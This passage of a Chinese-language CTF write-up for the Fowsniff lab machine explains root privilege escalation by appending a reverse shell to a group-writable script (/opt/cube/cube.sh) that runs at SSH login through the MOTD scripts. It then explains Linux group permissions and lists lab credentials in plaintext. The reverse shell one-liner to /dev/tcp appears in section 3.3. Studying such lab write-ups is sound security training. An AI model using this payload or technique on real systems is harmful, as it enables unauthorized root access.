

我觉得这个文件很可疑，还是一个脚本，`/opt/cube/cube.sh`。

---
## 3.3 提权：写入反弹 Shell

通过查找 `users` 组的文件，找到了 `/opt/cube/cube.sh`。这个 sh 脚本里面写的是打印一个图片在终端上，而 ssh 登入时候显示的图标就是这个。最终的提权方法是，往里面插入反弹 shell，再次通过 ssh 重连用户，这里反弹的 shell 就是 root。

向 `cube.sh` 追加反弹 shell：

```bash
echo 'bash -i >& /dev/tcp/192.168.129/4444 0>&1' >> /opt/cube/cube.sh
```

在攻击机开启监听，然后重新 SSH 登录 baksteen，触发 MOTD 执行（MOTD原理请看补充部分）。



Kali 反弹接收成功，获得 Root Shell。



查看 /root 下的 flag。



---

# 4.总结

本机的整体渗透路径比较有意思，核心在两个地方：

一是信息收集阶段的"社工"环节。Web 首页的剧情提示 → 推特被劫持 → 外部泄露 → GitHub 公开 hash，这条线要自己主动去追，不算常规扫描能直接给出的信息，算是一种 OSINT 思维的考察。

二是提权的 MOTD 机制，不依赖内核漏洞或 SUID，仅凭一个"root 每次登录都会执行、对 users 组可写的 shell 脚本"完成提权，逻辑链很简洁。

凭据汇总：

| 用户             | 密码                       | 用途           |
| -------------- | ------------------------ | ------------ |
| seina          | scoobydoo2               | POP3 登录      |
| baksteen       | S1ck3nBluff+secureshell  | SSH 登录（临时密码） |

---

# 5.补充

## 提权原理：MOTD 机制 + 组可写文件

> Q: Linux 权限问题，有一个组 `users`，如果有一个文件 `gid=users` 但 `uid` 不是我操作的这个用户，他可以操作这个文件吗？

可以，只要该文件的**组权限位**允许对应操作即可。

具体来说，Linux 判断权限时按以下顺序走：

```text
uid 匹配？→ 用 owner 权限位
    ↓ 否
gid 匹配？→ 用 group 权限位
    ↓ 否
         → 用 other 权限位
```

所以你的情况：uid 不匹配 → 检查 gid → **你在 users 组，文件 gid=users → 用 group 权限位**。

举例：

```text
-rw-rw-r-- 1 alice users 1234 file.txt
              ^^^
              owner: rw  (alice 才有)
                 ^^^
                 group: rw  ← 你（users 组成员）走这里
                    ^^^
                    other: r
```

你不是 alice，但在 users 组，所以有 `rw` 权限，可以读写。

验证自己的组成员资格：

```bash
id       # 看当前用户所在的所有组
groups   # 同上，更简洁
```

查看文件权限：

```bash
ls -l file.txt
stat file.txt   # 更详细，显示数字权限和 uid/gid
```

一个要注意的边缘情况：**uid 匹配时，group 权限不再参与判断**。比如文件是 `----rwxr--`，owner 反而什么都做不了，因为一旦 uid 命中就只看 owner 位，不会再 fallback 到 group。

---

### 第一层：`/etc/update-motd.d/` 是什么？

Linux 的 `/etc/update-motd.d/` 目录中存放的脚本，会在**每次用户通过 SSH 登录时由 root 自动执行**，用来动态生成 MOTD（Message of the Day，即每日提示信息）。

也就是说，这个目录下的脚本天然就是**以 root 权限运行**的。

### 第二层：`00-header` 调用了 `cube.sh`

检查 MOTD 脚本后可以确认，`/etc/update-motd.d/00-header` 文件中有一行代码调用了 `/opt/cube/cube.sh`。

```bash
root@fowsniff:/root# ls -l /etc/update-motd.d/
total 16
-rwxr-xr-x 1 root root 1248 Mar 11  2018 00-header
-rwxr-xr-x 1 root root 1473 Mar  9  2018 10-help-text
-rwxr-xr-x 1 root root  299 Jul 22  2016 91-release-upgrade
-rwxr-xr-x 1 root root  604 Nov  5  2017 99-esm

root@fowsniff:/root# cat /etc/update-motd.d/00-header
#!/bin/sh
# ...（版权注释省略）

sh /opt/cube/cube.sh   # <-- 调用点
```



调用链：

```
SSH 登录
  → root 执行 /etc/update-motd.d/00-header
    → 00-header 内部调用 /opt/cube/cube.sh
      → cube.sh 中的代码以 root 身份运行
```

### 第三层：`cube.sh` 对 `users` 组可写

当前用户属于 `users` 组，而 `cube.sh` 文件对该组有写入权限。这意味着你可以直接修改这个文件，**但执行它的人是 root**。

### 完整攻击链总结

| 步骤                          | 说明               |
| --------------------------- | ---------------- |
| `cube.sh` 归属 `users` 组且可写  | 低权限用户可以修改它       |
| `00-header` 会调用 `cube.sh`   | root 级别的 MOTD 脚本主动引用了它 |
| SSH 登录触发 MOTD               | 每次登录都会以 root 执行整个调用链 |
| 写入反弹 shell                  | 下次 SSH 登录时 root 替你执行了那段代码 |

这个提权方式的精妙之处在于它极其简洁——不需要内核漏洞、没有 SUID 二进制文件、也没有 sudo 配置错误，仅仅是一个**root 每次登录都会执行的、可写的 shell 脚本**。

#### 一个重要细节

注意 `/etc/update-motd.d/` 下这些文件的权限都是 `-rwxr-xr-x`，属主是 `root`，**本身不可被普通用户修改**。这就是为什么提权不是直接改这里，而是去改**它所调用的** `cube.sh`——那个文件才对 `users` 组开放了写权限，这是靶机设计者埋下的故意配置错误。

---

# 6.参考资料

- https://medium.com/@0xH1S/fowsniff-ctf-writeup-tryhackme-f03b8f1f4b41
- https://www.runoob.com/np/pop3-protocol.html
- https://medium.com/@primeradsec/how-to-solve-vulnhub-vm-network-interface-ip-issues-79ff55b7573c
